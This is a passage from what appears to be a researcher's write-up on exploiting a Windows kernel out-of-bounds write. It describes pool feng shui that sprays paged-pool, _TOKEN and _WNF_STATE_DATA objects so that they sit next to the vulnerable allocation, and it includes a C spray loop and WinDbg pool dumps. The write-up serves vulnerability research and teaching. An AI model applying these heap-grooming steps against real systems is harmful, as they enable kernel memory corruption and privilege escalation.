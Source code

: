 ```
  return result;
}
```

Function reference a LpcPort object and allocate a 0x20 paged pool for storing the LpcPort object, then store it into _ETHREAD object. If we create a thread and invoke NtRegisterThreadTerminatePort multiple times in thread, it could allocate a large amount of 0x20 paged pool.

Finally there was a pool feng shui plan in my head:

1.  Spray 0x20 paged pool to fill LFH subsegment, if all segment is full, backend allocation will allocate a new segment, and our new 0x20 LFH subsegment will be located in new segment.
2.  Spray _TOKEN object and _WNF_STATE_DATA object to fill VS subsegment, make sure they are in same page, and frontend allocation will finally allocate new VS subsegement, it will be located in the segement which created in step 1, adjacent to the LFH subsegment.

So our finally pool feng shui just like following:

![](https://whereisk0shl.top/20220823/1.png)

Note that I can't predict the vulnerable pool's position in LFH Bucket, but actually I don't care about it, in this pool feng shui situation, the target of out of bound write is occupy the manager object and the worker object in VS subsegment, so I don't need to make pool hole for vulnerable object, just fill the LFH bucket with spray object, and make sure the vulnerable object located at the end LFH bucket.

Stage 2: Pool feng shui
-----------------------

When spraying WNF object, I find out that there is another object named _WNF_NAME_INSTANCES be created, it will cause frontend allocation create another LFH segment and affect our pool feng shui layout.

So before I do pool feng shui, I create a lot of 0xd0 pool and free them to make a large amount of 0xd0 pool hole to store _WNF_NAME_INSTANCES objects.

```
for (UINT i = 0x0; i < 0x4000; i++) {//0xf000 for normal pool hole
        AllocateWnfObject(0xd0, &gStateName[i]);
}
for (UINT i = 0x0; i < 0x4000; i++) {//0xf000
        fNtDeleteWnfStateName(&gStateName[i]);//0x30
}
```

I allocate a lot amount of spray objects and spray _TOKEN objects and _WNF_STATE_DATA objects first, it will create new LFH subsegment and VS subsegement in the new segment. We can observe the final pool feng shui layout by windbg.

```
0: kd> !pool ffffb0880d69e000
Pool page ffffb0880d69e000 region is Paged pool
*ffffb0880d69e000 size:   20 previous size:    0  (Allocated) *PsTp Process: ffffc10b74a1c080
        Pooltag PsTp : Thread termination port block, Binary : nt!ps
 ffffb0880d69e020 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e040 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e060 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e080 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e0a0 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 
0: kd> !pool ffffb0880d69f000
Pool page ffffb0880d69f000 region is Paged pool
*ffffb0880d69f000 size:   20 previous size:    0  (Free)      *....
        Owning component : Unknown (update pooltag.txt)
 ffffb0880d69f020 size:   20 previous size:    0  (Free)       ....
 ffffb0880d69f040 size:   20 previous size:    0  (Free)       ....
 ffffb0880d69f060 size:   20 previous size:    0  (Free)       ....
 ffffb0880d69f080 size:   20 previous size:    0  (Free)       ....
```
